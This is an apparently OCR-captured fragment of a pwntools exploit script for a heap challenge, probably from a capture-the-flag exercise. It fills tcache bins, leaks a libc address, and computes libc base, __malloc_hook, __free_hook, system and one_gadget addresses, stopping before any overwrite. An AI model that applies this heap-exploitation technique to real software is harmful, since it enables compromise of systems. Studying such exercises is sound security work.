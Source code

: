 ```c
for i in range(7):

    add(i, 0x88)#malloc(0,1,2,3,4,5,6) go back

  

add(7, 0x18)#malloc(7)

# gdb.attach(file)

  

show(7)

file.recvuntil("Content: ")

  
  
  

libc_offset = u64(file.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))

print(hex(libc_offset))

libc_base = libc_offset - 0x3EBD20

malloc_hook = libc_base + libc.sym['__malloc_hook']

  

# libc_offset = u64(file.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) -0x80

# libc_base = libc_offset - libc.sym['__realloc_hook']

  

print(hex(libc_base))

  

free_hook = libc_base + libc.sym['__free_hook']

system_addr = libc_base + libc.sym['system']

one = [0x4f29e, 0x4f2a5, 0x4f302, 0x10a2fc]

one_gadget = libc_base + one[2]

  
  

add(9, 0x38)

  

add(10, 0x38)

  

add(11, 0x38)

  

```